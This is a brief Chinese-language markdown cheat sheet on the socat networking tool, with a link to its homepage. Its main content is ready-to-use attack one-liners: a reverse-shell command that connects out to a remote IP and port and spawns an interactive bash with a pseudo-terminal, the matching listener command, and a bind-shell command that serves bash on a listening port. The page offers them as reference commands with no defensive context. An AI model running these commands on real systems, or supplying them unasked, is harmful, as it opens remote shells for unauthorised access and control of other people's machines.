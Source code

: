 # socat

```
一款比 nc 更加强大的网络工具
名称来源于 socket cat
```

#### 命令

反弹一个交互式的 shell
```
连接 : 
socat tcp-connect:8.8.8.8:8888 exec:'bash -li',pty,stderr,setsid,sigint,sane
监听 : 
socat file:`tty`,raw,err,echo=0 tcp-l:6666
```

正向 shell
```
socat tcp-l:8888,fork,reuseaddr exec:./bash 
```

#### 参考文献
> http://www.dest-unreach.org/socat/
